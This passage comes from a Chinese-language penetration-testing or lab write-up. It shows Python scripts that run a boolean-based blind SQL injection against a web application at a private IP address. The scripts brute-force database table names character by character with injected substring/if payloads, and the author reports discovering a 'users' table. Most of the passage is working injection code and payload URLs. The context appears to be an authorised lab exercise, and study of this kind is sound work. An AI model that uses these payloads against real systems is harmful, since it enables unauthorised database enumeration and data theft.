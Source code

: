 ```python
            #print("not found div")
        else:
            print("target code not 200")
    except requests.RequestException as e:
        print(f"使用参数值 {combination} 请求时出现异常: {e}")
```

![](./pic-8/15.jpg)

确定长度为1024，再次编写验证的代码，因为在正确时会多出一串`html`代码，所以以这个为正确方向

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string

characters = string.ascii_lowercase + string.digits
combinations = [''.join(x) for x in itertools.product(characters, repeat=1)]

for i in range(0,1025):	#根据前面的长度进行对应的修改范围

    for combination in combinations:
        try:
            url=f"http://192.168.10.12/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),{i},1)='{combination}',1,0)--+"
            response=requests.get(url)
            response.encoding = 'utf-8'
            if response.status_code == 200:
                soup = BeautifulSoup(response.text, 'html.parser')
                target_elements = soup.find_all('div', class_='messages status')
                if target_elements:
                    print(f"num {i}-----{combination}")
                    for element in target_elements:
                        pass
                        #print(element)
                else:
                    pass
                    #print("not found div")
            else:
                print("target code not 200")
        except requests.RequestException as e:
            print(f"使用参数值 {combination} 请求时出现异常: {e}")
```

发现`users`表名
